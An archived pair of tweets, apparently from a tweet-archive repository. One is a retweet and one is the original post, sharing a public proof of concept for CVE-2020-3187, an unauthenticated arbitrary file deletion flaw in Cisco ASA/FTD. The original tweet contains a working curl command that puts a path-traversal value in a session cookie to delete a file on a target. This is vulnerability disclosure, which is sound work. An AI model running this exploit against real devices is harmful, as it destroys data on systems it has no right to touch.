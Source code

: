 
# jedisct1
**https://twitter.com/jedisct1/status/1286868630194528256 _at 2020-07-25 03:39:24_**
<blockquote>
RT @aboul3la: Ok, as many people requested, here is the POC of CVE-2020-3187 - unauthenticated arbitrary file deletion in Cisco ASA/FTD.

E…
</blockquote>


<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>358</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# aboul3la
**https://twitter.com/aboul3la/status/1286809567989575685 _at 2020-07-24 23:44:43_**
<blockquote>
Ok, as many people requested, here is the POC of CVE-2020-3187 - unauthenticated arbitrary file deletion in Cisco ASA/FTD.

Example to delete logo file "/+CSCOU+/csco_logo.gif".

POC:
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://target/+CSCOE+/session_password.html https://t.co/BFbDAI9mX2
</blockquote>


<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+ext_tw_video_thumb+1286808440271183873+pu+img+wON6-CmjXzgS8AfM.jpg" alt="http://pbs.twimg.com/ext_tw_video_thumb/1286808440271183873/pu/img/wON6-CmjXzgS8AfM.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>18</code></td>